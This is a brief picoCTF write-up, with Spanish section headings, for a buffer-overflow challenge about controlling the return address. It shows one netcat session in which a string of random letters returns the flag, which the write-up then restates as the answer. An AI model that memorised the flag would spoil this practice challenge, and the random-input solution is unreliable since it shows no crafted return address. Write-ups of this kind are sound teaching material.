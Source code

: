 ## Descripcion
Control the return address

Now we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/187/vuln). You can view source [here](https://artifacts.picoctf.net/c/187/vuln.c). 
## Pistas 
****** 
## Solucion
```
t@jt-VirtualBox:~/Desktop/repos/files$ nc saturn.picoctf.net 61481
Input: anhunahoneuhnatoehunahonuhantuehontueoh
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef7314c6}
```
## bandera
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef7314c6}
## Notas adicionales 

## Referencias